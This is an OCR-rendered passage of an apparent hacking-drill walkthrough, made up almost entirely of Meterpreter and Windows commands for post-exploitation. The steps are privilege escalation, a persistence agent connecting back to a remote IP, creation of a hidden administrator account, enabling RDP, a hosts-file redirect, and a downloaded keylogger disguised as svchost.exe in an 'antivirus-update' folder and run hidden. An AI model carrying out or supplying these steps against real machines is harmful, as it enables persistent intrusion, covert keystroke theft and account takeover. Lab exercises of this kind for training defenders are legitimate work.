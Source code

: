 ### Post-Exploitation: Privilege Escalation

```bash
# 5. Attempt to gain SYSTEM privileges
meterpreter> getsystem
[*] Obtained system privileges

# 6. Establish persistence
meterpreter> run persistence -U -i 5 -p 2021 -r 10.10.10.128
# -U: Start the agent when the user logs on
# -i: Connect back every 5 seconds
# -p: Use port 2021
# -r: Connect back to this IP address
```

### Post-Exploitation: User Creation and RDP Access

```bash
# 7. Create a new administrative user
meterpreter> shell
C:\Windows\system32> net user /add Hackdrill2021 nacsdrill@
C:\Windows\system32> net localgroup administrators Hackdrill2021 /add

# 8. Enable Remote Desktop
C:\Windows\system32> REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# 9. Enable RDP through Metasploit module
meterpreter> run getgui -e
```
### Post-Exploitation: Network Manipulation

```bash
# 10. Modify hosts file to redirect traffic
meterpreter> shell
C:\Windows\system32> echo 10.10.10.50 facebook.com >> %WINDIR%\System32\Drivers\Etc\Hosts
```
### Post-Exploitation: Keylogger Installation

```bash
# 11. Download and install keylogger
┌──(kali㉿kali)-[~/Desktop]
└─$ wget https://github.com/ajayrandhawa/Keylogger/blob/master/keylogger.rar

# 12. Extract and prepare keylogger files
# Upload keylogger to victim
meterpreter> mkdir antivirus-update
meterpreter> cd antivirus-update
meterpreter> upload keylogger/rundll33.exe
meterpreter> upload keylogger/svchost.exe

# 13. Execute keylogger with hidden windows
meterpreter> execute -f svchost.exe -i -H
meterpreter> execute -f rundll33.exe -i -H
```
### Post-Exploitation: Credential Harvesting

